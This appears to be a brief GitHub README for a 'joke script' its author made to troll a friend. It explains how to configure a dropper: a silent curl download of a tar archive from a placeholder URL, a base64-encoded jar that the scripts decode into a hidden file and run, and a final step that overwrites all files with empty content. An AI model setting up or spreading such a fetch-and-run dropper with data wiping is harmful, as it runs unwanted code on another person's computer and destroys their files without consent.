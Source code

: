 # uwu

Joke script that I made to troll a friend.



aTar, change the value of a1 withing script m to the command ``curl -s (fileurlHere) --output tmp.tar``,
The tar tmp should contain 1 file called owo. To change the jar simply run ``cat yourJar.jar | base64 > owo``
Essentially owo is decoded by script R and written to a file called ``.jar`` then that jar is ran by the script. 
Afterwards all files are overwritten to be empty by script c.
